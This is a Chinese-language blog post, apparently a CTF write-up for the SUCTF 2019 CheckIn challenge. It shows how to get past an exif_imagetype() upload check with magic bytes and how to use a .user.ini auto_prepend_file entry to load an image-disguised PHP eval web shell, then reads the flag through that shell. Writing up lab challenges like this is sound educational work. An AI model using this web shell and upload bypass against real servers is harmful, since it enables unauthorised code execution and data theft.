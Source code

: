```yaml
---
layout: post
title: '.user.ini绕过上传'
subtitle: '[SUCTF 2019]CheckIn'
date: 2021-07-27
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: jekyll 前端开发 设计
---
```

### [SUCTF 2019]CheckIn

###  一、知识点

> 1.1exif_imagetype()

打开发现是上传，发现可以上传jpg等格式的文件。然后上传txt格式的文件，发现后台好像是通过exif_imagetype函数判断的— 判断一个图像的类型。
	
	<?php
	if (exif_imagetype("image.gif") != IMAGETYPE_GIF) {
	    echo "The picture is not a gif";
	}
	?>
	
	if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
	
	echo "File is not an image";
	 
	return;
	 
	}

但我们可以通过给上传脚本加上相应的幻数头字节就可以绕过：

	JPG ：FF D8 FF E0 00 10 4A 46 49 46
	GIF(相当于文本的GIF89a)：47 49 46 38 39 61
	PNG： 89 50 4E 47

> [1.2.user.ini(重点)](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)

首先介绍php.ini文件，php有很多配置，并可以在php.ini中设置。在每个正规的网站里，都会由这样一个文件，而且每次运行PHP文件时，都会去读取这个配置文件，来设置PHP的相关规则。
这些配置可以分为四种：

![](https://1024861435.github.io/assets/img/user.ini绕过1.png)

我感觉是按重要程度分类了，比如关乎到系统一类的配置，那一类的全部配置，都属于“PHP_INI_SYSTEM”。它只能在，像php.ini这样的“厉害”的文件里可以设定。而其他的三类不怎么重要的配置，除了可以在php.ini中设定外，还可以在其它类似的文件中设定，其中就包括.user.ini文件。

实际上，除了PHP_INI_SYSTEM以外的模式（包括PHP_INI_ALL）都是可以通过.user.ini来设置的。而且，和php.ini不同的是，.user.ini是一个能被动态加载的ini文件。也就是说我修改了.user.ini后，不需要重启服务器中间件，只需要等待user_ini.cache_ttl所设置的时间（默认为300秒），即可被重新加载。

这里就很清楚了，.user.ini实际上就是一个可以由用户“自定义”的php.ini，我们能够自定义的设置是模式为“PHP_INI_PERDIR 、 PHP_INI_USER”的设置。（上面表格中没有提到的PHP_INI_PERDIR也可以在.user.ini中设置）

其中有两个配置，可以用来制造后门：
auto_append_file、auto_prepend_file
指定一个文件，自动包含在要执行的文件前，类似于在文件前调用了require()函数。而auto_append_file类似，只是在文件后面包含。 使用方法很简单，直接写在.user.ini中：

auto_prepend_file=test.jpg

那么当我们访问此目录下的任何一个文件时，都会去包含test.jpg

### 二、实践

> 1.制作.user.ini文件

因为后台用exif_imagetype函数检测文件类型，所以我们在文件前加上图片的特征，来绕过检测。

上传文件.user.ini:

	GIF89a
	auto_prepend_file=a.jpg

> 2.制作图片马上传

此处注意，有些题会把含“<?”的文件和过滤掉，所以我们就换个方法制作图片马：注意生成的图片马的名称，要和.user.ini中的配置：auto_prepend_file的值相同。
	
	<script language="php">eval($_POST['a']);</script>

> 3.访问index.php,我们就成功执行了木马。

然后就可以用菜刀连了。但是它会不时的清除文件，所以链接的不是很稳定，甚至有是时候连不上，但我们可以在网页执行命令。所以我第一次就是在页面执行了命令，找到了flag：
扫描根目录：a=var_dump(scandir("/"));，我们可以可以看见一个叫flag的文件
打印：a=var_dump(file_get_contents("/flag"));


